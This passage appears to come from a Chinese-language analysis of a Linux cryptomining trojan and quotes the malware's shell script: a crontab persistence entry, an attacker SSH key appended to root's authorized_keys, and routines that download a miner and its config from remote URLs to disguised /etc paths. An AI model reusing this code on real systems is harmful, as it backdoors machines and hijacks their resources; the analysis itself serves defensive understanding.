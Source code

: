 ```
			[[ $cont =~ "update.sh" ]] || (crontab -l ; echo "*/30 * * * * sh /etc/update.sh >/dev/null 2>&1") | crontab -
	fi
        chmod 700 /root/.ssh/
        echo >> /root/.ssh/authorized_keys
        chmod 600 root/.ssh/authorized_keys
        echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC9WKiJ7yQ6HcafmwzDMv1RKxPdJI/oeXUWDNW1MrWiQNvKeSeSSdZ6NaYVqfSJgXUSgiQbktTo8Fhv43R9FWDvVhSrwPoFBz9SAfgO06jc0M2kGVNS9J2sLJdUB9u1KxY5IOzqG4QTgZ6LP2UUWLG7TGMpkbK7z6G8HAZx7u3l5+Vc82dKtI0zb/ohYSBb7pK/2QFeVa22L+4IDrEXmlv3mOvyH5DwCh3HcHjtDPrAhFqGVyFZBsRZbQVlrPfsxXH2bOLc1PMrK1oG8dyk8gY8m4iZfr9ZDGxs4gAqdWtBQNIN8cvz4SI+Jv9fvayMH7f+Kl2yXiHN5oD9BVTkdIWX root@u17" >> /root/.ssh/authorized_keys
        
        cfg="/etc/config.json"
        file="/etc/sysupdate"


```

取得root权限后，将下载的挖矿木马文件设为可以修改，接着使用crontab命令每三十分钟运行一次update.sh脚本。然后是配置.ssh/authorized_keys，将本地ssh公钥复制到远程服务器的.ssh/authorized_keys中，即可免密登录。



	   if [-f "/etc/config.json" ]
	   then
		     filesize_config=`ls -l /etc/config.json | awk '{ print $5 }'`
		     if [ "$filesize_config" -ne "$config_size" ]	
		     then
	              pkill -f sysupdate
			      rm /etc/config.json
	              downloads $config_url /etc/config.json $config_url_backup
		     else
			      echo "no need download"
		     fi
	    else
		     downloads $config_url /etc/config.json $config_url_backup
	    fi
	
	    if [ -f "/etc/sysupdate" ]
	    then
	         filesize1=`ls -l /etc/sysupdate | awk '{ print $5 }'`
	         if [ "$filesize1" -ne "$miner_size" ] 
	         then
	              pkill -f sysupdate
	              rm /etc/sysupdate
	              downloads $miner_url /etc/sysupdate $miner_url_backup
	          else
	              echo "not need download"
	          fi
	    else
	          downloads $miner_url /etc/sysupdate $miner_url_backup
	    fi
	